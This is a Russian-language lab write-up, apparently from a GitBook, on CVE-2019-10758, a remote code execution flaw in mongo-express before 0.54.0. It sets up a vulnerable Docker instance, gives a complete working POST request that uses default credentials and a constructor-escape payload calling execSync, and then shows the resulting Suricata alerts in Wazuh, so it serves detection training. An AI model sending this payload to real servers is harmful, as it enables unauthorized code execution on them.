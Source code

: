# CVE-2019-10758

Mongo-express до версии 0.54.0 уязвим для удаленного выполнения кода через конечные точки, использующие метод toBSON. Если злоумышленник может успешно войти в систему или целевой сервер не изменил пароль учетной записи по умолчанию (admin:pass), он может выполнить произвольный код node.js.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:8081 будет доступна веб-страница mongo-express

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости отправьте следующий POST-запрос с полезной нагрузкой

```
POST /checkValid HTTP/1.1
Host: ваш-ip:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 128

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

В результате был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>
